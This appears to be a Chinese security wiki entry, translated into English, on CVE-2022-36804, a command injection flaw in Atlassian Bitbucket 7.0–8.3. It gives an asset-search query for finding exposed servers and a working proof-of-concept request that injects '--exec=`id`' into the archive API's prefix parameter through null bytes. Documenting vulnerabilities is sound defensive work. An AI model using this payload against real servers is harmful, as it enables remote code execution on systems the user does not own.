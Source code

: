 # Atlassian Bitbucket archive Remote Command Execution Vulnerability CVE-2022-36804

## Vulnerability Description

Atlassian issued a security bulletin that disclosed that Bitbucket Server and Data Center introduced a critical security vulnerability in version 7.0.0.

Bitbucket is a web-based version library hosting service provided by Atlassian, which supports Mercurial and Git version control systems. 

The official vulnerability announcement describes that there is a command injection vulnerability in multiple API endpoints of Bitbucket Server and Data Center. The vulnerability triggers the attacker with access to the public project or readable permissions to the private project, affecting the version from 7.0 to 8.3

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Atlassian Bitbucket  7.0～8.3</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="ATLASSIAN-Bitbucket"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1663725817384-5de92389-3230-42e1-937c-f21a2db84194.png)

Verify POC

```sql
/rest/api/latest/projects/BIZEE/repos/bizee-communication-api/archive?filename=wN3Am&at=wN3Am&path=wN3Am&prefix=ax%00--exec=%60id%60%00--remote=origin
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1663725840976-179c5c01-3756-4090-83df-8dbb17e529c0.png)